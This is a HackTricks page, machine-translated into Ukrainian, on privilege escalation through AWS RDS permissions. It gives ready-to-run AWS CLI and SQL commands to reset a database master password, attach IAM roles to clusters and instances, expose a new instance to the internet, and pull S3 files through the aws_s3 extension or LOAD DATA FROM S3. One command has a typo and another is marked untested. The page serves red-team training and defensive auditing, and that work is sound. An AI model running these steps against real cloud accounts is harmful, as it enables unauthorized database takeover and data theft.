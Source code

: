 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Служба реляційних баз даних

Для отримання додаткової інформації про RDS перегляньте:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

З цією дозволом зловмисник може **змінити пароль майстер-користувача** та вхід до бази даних:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Вам потрібно буде **зв'язатися з базою даних** (зазвичай вони доступні лише з внутрішніх мереж).
{% endhint %}

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), користувач з цим дозволом може підключитися до екземпляра БД.

### Зловживання дозволами ролі RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Якщо виконуючи **`SELECT datname FROM pg_database;`** ви знайдете базу даних під назвою **`rdsadmin`**, ви знаєте, що ви всередині **AWS postgresql бази даних**.
{% endhint %}

Спочатку ви можете перевірити, чи використовувалася ця база даних для доступу до будь-якої іншої служби AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знайдете щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (є й інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете побачити, чи **кластер має будь-яку IAM роль, прикріплену** в полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших сервісів AWS**. Виходячи з **назви ролі** (або якщо ви можете отримати **дозволи** ролі), ви могли б **вгадати**, який додатковий доступ має база даних.

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі AWS облікові дані**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Всередині mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і є користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.
{% endhint %}

Всередині mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних готова до доступу до даних S3.

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи має кластер будь-яку **асоційовану роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в межах екземпляра.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.\
Зверніть увагу, що деякі БД вимагають додаткових налаштувань, таких як Mysql, який потребує вказати роль ARN у групах параметрів.

### `rds:CreateDBInstance`

Тільки з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує і має прикріплену **IAM роль**. Він не зможе змінити пароль майстер-користувача, але може мати можливість виставити новий екземпляр бази даних в інтернет:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Зловмисник з правами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленою вказаною роллю**. Зловмисник може потім потенційно **отримати доступ до чутливих даних** або змінити дані в екземплярі.

{% hint style="warning" %}
Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Профіль повинен існувати у вашому обліковому записі.
* Профіль повинен мати IAM роль, яку Amazon EC2 має право приймати.
* Ім'я профілю екземпляра та пов'язане ім'я IAM ролі повинні починатися з префікса `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у RDS екземплярі.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з дозволами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого RDS екземпляра**. Це може дозволити зловмиснику **доступ до чутливих даних** або змінити дані в межах екземпляра.

{% hint style="warning" %}
DB екземпляр повинен бути поза кластером для цього
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
